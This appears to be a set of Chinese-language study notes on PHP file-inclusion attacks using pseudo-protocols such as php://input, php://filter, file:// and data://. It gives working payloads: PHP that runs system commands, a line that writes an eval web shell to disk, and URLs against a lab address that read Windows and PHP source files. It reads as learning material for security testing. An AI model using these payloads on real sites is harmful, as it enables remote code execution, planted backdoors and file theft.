 ### 1、文件包含基础
![[Pasted image 20231221150356.png]]
### 2、php://input协议
```
url?page=php://input
post参数:
<?php system(whomi);?>
or
<?php fputs(fopen('aacc.php','w'),'<?php @eval($_POST[11]);?>')?>
```
![[Pasted image 20231221152617.png]]

![[Pasted image 20231221150922.png]]

### 3、file:///协议 ---------读取文件
```
http://100.100.100.29/baohan/inde.php?page=file:///c:/windows/win.ini
```
### 4、php://filter协议 --------------------- 读取文件
最常用的一个伪协议，一般用来进行任意文件读取
用法：?filename=php://filter/convert.base64-encode/resource=xxx.php
使用条件：只是读取，需要开启 allow_url_fopen，不需要开启 allow_url_include
```
http://100.100.100.29/baohan/inde.php?filename=php://filter/convert.base64-encode/resource=xxx.php
```
### 5、data://伪协议
数据流封装器，和php://相似都是利用流的概念，将原本的include的文件流重新定向到
了用户可控制的输入流中，简单来说就是执行文件的包含方法包含来你的输入流，通过你
输入payload来实现目的。data://[读取文件] 和 php伪协议的input类似，碰到file_get_contents()来用
例：data://text/plain;base64,
![[Pasted image 20231221160246.png]]
### 6、phar，zip伪协议
![[Pasted image 20231221160321.png]]